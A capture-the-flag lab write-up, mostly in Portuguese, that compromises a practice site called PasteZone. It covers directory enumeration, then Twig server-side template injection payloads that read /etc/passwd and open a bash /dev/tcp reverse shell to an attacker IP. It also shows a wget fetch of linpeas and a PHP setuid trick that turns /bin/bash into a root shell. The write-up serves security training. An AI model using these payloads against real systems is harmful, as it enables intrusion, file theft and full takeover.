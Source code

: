 #+title: Paste Zone lab
#+author: gabriel
#+description: easy lab

* lab
An urgent midnight intelligence alert has triggered a full-scale response: sensitive data belonging to the Ministry of Energy has been discovered for sale on PasteZone, one of the most notorious illegal platforms on the dark web. Cybercriminals use this site to anonymously share details of compromised systems, vulnerabilities, and stolen data. Preliminary investigations have confirmed that the leaked content originates directly from the Ministry of Energy’s systems, posing a significant security threat.

Your mission is to identify the individuals or groups responsible for this breach, gather intelligence on PasteZone’s administrators, and collect actionable evidence.

* enum com feroxbuster
#+begin_src sh
feroxbuster --url http://pastezone.hv > t.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://pastezone.hv
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
#+end_src

A enumeração demonstrou alguns arquivos e directorys interessantes ->
#+begin_src sh
200      GET        6l      148w    89220c http://pastezone.hv/assets/css/all.min.css
200      GET        9l       53w      602c http://pastezone.hv/assets/images/favicon.svg
200      GET      593l     1345w    11706c http://pastezone.hv/assets/css/style.css
200      GET      538l     1225w    28939c http://pastezone.hv/
301      GET        9l       28w      313c http://pastezone.hv/vendor => http://pastezone.hv/vendor/
[#>------------------] - 19s    20686/210029  4m      found:10      errors:251    
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_pastezone_hv-1759423707.state ...
[#>------------------] - 19s    20884/210029  4m      found:10      errors:251    
[##>-----------------] - 19s     3820/30000   204/s   http://pastezone.hv/ 
[#>------------------] - 14s     2410/30000   172/s   http://pastezone.hv/assets/ 
[#######>------------] - 14s    11416/30000   818/s   http://pastezone.hv/database/ 
[>-------------------] - 14s     1334/30000   97/s    http://pastezone.hv/assets/images/ 
[>-------------------] - 14s      215/30000   16/s    http://pastezone.hv/assets/js/ 
[>-------------------] - 14s     1329/30000   96/s    http://pastezone.hv/assets/css/ 
[>-------------------] - 5s       287/30000   57/s    http://pastezone.hv/vendor/
#+end_src

Principal find ->
: http://pastezone.hv/create.php

Esta página é vulnerável a SSTI (Server SIde template injeciton )na criação do post, pois a aplicação utiliza o template TWig do PHP

Payload de teste simples ->
#+begin_src sh
{{ 7 * 7  }}
#+end_src

A página retorna ~49~, o processamento matemático foi realizdo com sucesso.

Payload mais avançado após identificar a presença de um filtro no input, porém com este payload arquivos sensives podem ser acessados ->
: {{['cat\x20/etc/passwd']|filter('system')}}

*Reverse shell payload* ->
: {{['bash -c "bash -i >& /dev/tcp/172.20.69.80/4444 0>&1"']|filter('system')}}

*Pegar o linpeas.sh para a maquina comprometida* ->
Serve the linpeas.sh
#+begin_src sh
┌─[root@hackerbox]─[~/Desktop/misc/LinuxPrivilegeEscalation]
└──╼ #python3 -m http.server 7777
Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
172.20.69.73 - - [02/Oct/2025 12:13:47] "GET /linpeas.sh HTTP/1.1" 200 -
#+end_src

at /tmp dir, get from compromised machine ->
: wget http://172.20.20.20:7777/linpeas.sh

: chmod +x linpeas.sh

*after run the linpeas* ->
: /usr/bin/php8.4 -r "posix_setuid(0); system('chmod +s /bin/bash');"

#+begin_src sh
<r "posix_setuid(0); system('chmod +s /bin/bash');"
www-data@debian:/tmp$ /bin/bash -p
/bin/bash -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
#+end_src
